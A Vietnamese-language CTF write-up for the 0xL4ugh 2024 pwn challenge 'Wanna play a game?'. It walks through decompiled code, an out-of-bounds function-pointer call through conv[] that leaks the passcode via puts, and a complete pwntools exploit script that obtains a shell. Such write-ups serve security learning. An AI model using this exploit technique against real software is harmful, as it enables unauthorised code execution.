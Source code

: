 ```yaml
---
title: "[WRITE UP] - 0xL4ugh CTF 2024 - Wanna play a game?"
published: 2024-12-01
description: "Write up for Wanna play a game challenge"
tags:
  - "PWN"
category: "CTF Write ups"
draft: false
---
```

## General Infomation

```c
[*] '/home/alter/CTFs/0xlaugh/pwn/wanna_play_a_game/public/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

- **main()**

    ```c
    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      __int64 v3; // [rsp+0h] [rbp-10h]
      __int64 v4; // [rsp+8h] [rbp-8h]

      setup(argc, argv, envp);
      printf("[*] NickName> ");
      if ( read(0, &username, 0x40uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      while ( 1 )
      {
        menu();
        v3 = read_int();
        printf("[*] Guess>");
        v4 = read_int();
        ((void (__fastcall *)(__int64))conv[v3 - 1])(v4);
      }
    }

    ```

- **easy()**

    ```c
    int __fastcall easy(__int64 a1)
    {
      if ( a1 == rand() )
        return printf("[+] NICE GUESS!!\n[*] Current Score: %lu\n", score);
      else
        return puts("[-] WRONG GUESS :(");
    }
    ```

- **hard()**

    ```csharp
    unsigned __int64 __fastcall hard(__int64 a1)
    {
      int i; // [rsp+14h] [rbp-2Ch]
      char path[8]; // [rsp+2Fh] [rbp-11h] BYREF
      char v4; // [rsp+37h] [rbp-9h]
      unsigned __int64 v5; // [rsp+38h] [rbp-8h]

      v5 = __readfsqword(0x28u);
      strcpy(path, "<qz}<`{");
      v4 = 0;
      for ( i = 0; i <= 6; ++i )
        path[i] ^= 0x13u;
      if ( a1 == passcode )
      {
        puts("[+] WINNNN!");
        execve(path, 0LL, 0LL);
      }
      else
      {
        puts("[-] YOU ARE NOT WORTHY FOR A SHELL!");
      }
      change_passcode();
      return v5 - __readfsqword(0x28u);
    }
    ```

- **read_int()**

    ```c
    __int64 read_int()
    {
      __int64 buf[6]; // [rsp+0h] [rbp-30h] BYREF

      buf[5] = __readfsqword(0x28u);
      memset(buf, 0, 32);
      printf("> ");
      if ( read(0, buf, 0x20uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      return atol((const char *)buf);
    }
    ```

- **change_passcode()**

    ```c
    int change_passcode()
    {
      int fd; // [rsp+Ch] [rbp-4h]

      fd = open("/dev/random", 0);
      if ( fd < 0 )
      {
        perror("OPEN ERROR");
        exit(-1);
      }
      if ( read(fd, &passcode, 8uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      puts("[*] PASSCODE CHANGED!");
      return close(fd);
    }
    ```


Flow của ELF được cấu trúc như sau:

1. **Nhập username**: Người dùng nhập tên của mình.
2. **Chọn chức năng**: Người dùng chọn một trong hai chế độ (`easy` hoặc `hard`).
3. **Nhập số để đoán**: Người dùng nhập giá trị dự đoán.
4. **Gọi hàm tương ứng**: Chế độ được chọn (`easy` hoặc `hard`) sẽ được gọi thông qua mảng `conv[]`.
5. **Quay lại bước 2**: Chu trình tiếp tục lặp lại.

Khi phân tích qua mã decompile, ta thấy rằng cả `username` và mảng `conv[]` đều được khởi tạo trước khi hàm `main` chạy và nằm trong `.data` section. Với điều kiện **No PIE** (Position Independent Executable bị tắt), địa chỉ của các biến này là cố định. Điều này cho phép ta kiểm soát hoặc tận dụng một trong hai (hoặc cả hai) biến để khai thác chương trình, mở ra nhiều khả năng tấn công dựa trên việc thao túng `.data` section.

Tại `conv` :

```nasm
.data:0000000000404010                 public conv
.data:0000000000404010 conv            dq offset easy          ; DATA XREF: main+A8↑o
.data:0000000000404010                                         ; main+AF↑r
.data:0000000000404010                 dq offset hard
```

Mảng `conv[]` chứa hai địa chỉ hàm: `easy` và `hard`. Khi người dùng chọn chế độ, chương trình sẽ gọi hàm tương ứng thông qua `conv` bằng cách sử dụng cú pháp `conv[input - 1](v4)`. Ở đây, `input - 1` xác định index trong mảng `conv`, tương ứng với `1` (easy - index `0`) và `2` (hard - index `1`). Biến `v4` được truyền làm tham số cho hàm được gọi. Cách triển khai này phụ thuộc hoàn toàn vào giá trị nhập từ người dùng để xác định hàm nào sẽ được thực thi, tạo cơ hội cho việc khai thác nếu người dùng có thể kiểm soát hoặc ghi đè dữ liệu trong mảng `conv`

Như vậy, chương trình tồn tại lỗi **Out-Of-Bounds (OOB)** khi gọi `conv[input - 1](v4)` mà không kiểm tra giá trị của `input`. Điều này cho phép người dùng nhập các giá trị ngoài phạm vi hợp lệ (khác 1 và 2), dẫn đến việc gọi địa chỉ bất kỳ. Kết hợp với khả năng kiểm soát biến `username`, ta có thể chỉnh sửa nội dung của `username` để chứa một địa chỉ hợp lệ. Sau đó, chương trình có thể bị điều hướng để gọi vào địa chỉ đó, mở ra khả năng khai thác. Bên cạnh đó còn có **Bad Seed khi** chương trình sử dụng `srand(time(0))` để tạo seed cho việc sinh passcode ngẫu nhiên. Tuy nhiên, với `rand()`, giá trị này có thể được dự đoán nếu thời gian chạy chương trình được biết. Dù vậy, tính năng này chỉ được sử dụng trong chế độ `easy`, và không có ý nghĩa quan trọng trong khai thác hiện tại nên có thể bỏ qua.

## Leak libc

Theo intended solution, mục tiêu là nhập đúng passcode mà binary đã khởi tạo mỗi khi chạy `main`. Để đạt được điều này, ta có thể lợi dụng hàm `puts(char *s)` để leak dữ liệu từ biến `passcode`. Vì `passcode` được khởi tạo trước khi `main` chạy và nằm trong `.data` section, ta có thể khai thác bằng cách làm như sau:

1. **Chọn địa chỉ cần leak**: Biến `passcode` có địa chỉ cố định (do No PIE), và nội dung của nó có thể được truy cập trực tiếp.
2. **Gọi `puts` với địa chỉ tùy chỉnh**: Bằng cách điều hướng một hàm hoặc mảng (như `conv[]`) để gọi `puts` với tham số là địa chỉ của `passcode`, chương trình sẽ in ra giá trị của nó.

```python
passcode_address = 0x404060
puts_plt = exe.plt.puts

sa(b'[*] NickName> ', p64(puts_plt))
sla(b'> ', b'15') # offset / 8 từ conv -> passcode
sa(b'>', str(passcode_address).encode())

ru(b'> ')
# print(ru(b'\n'))
passcode = u64(ru(b'\n').strip())
print(f'Passcode leak: {passcode}')
```

## Get shell

Nhập `passcode` ta leak được là đã có được shell:

```python
sla(b'> ', b'2')
sa(b'>', str(passcode).encode())
```

- Full payload

    ```python
    #!/usr/bin/python3
    from pwncus import *

    # context.log_level = 'debug'
    exe = context.binary = ELF('./chall', checksec=False)

    def GDB(): gdb.attach(p, gdbscript='''

    c
    ''') if not args.REMOTE else None

    p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
    set_p(p)
    if args.GDB: GDB(); input()

    # ===========================================================
    #                          EXPLOIT
    # ===========================================================

    passcode_address = 0x404060
    puts_plt = exe.plt.puts

    sa(b'[*] NickName> ', p64(puts_plt))
    sla(b'> ', b'15')
    sa(b'>', str(passcode_address).encode())

    ru(b'> ')
    # print(ru(b'\n'))
    passcode = u64(ru(b'\n').strip())
    print(f'Passcode leak: {passcode}')

    sla(b'> ', b'2')
    sa(b'>', str(passcode).encode())
    interactive()
    ```
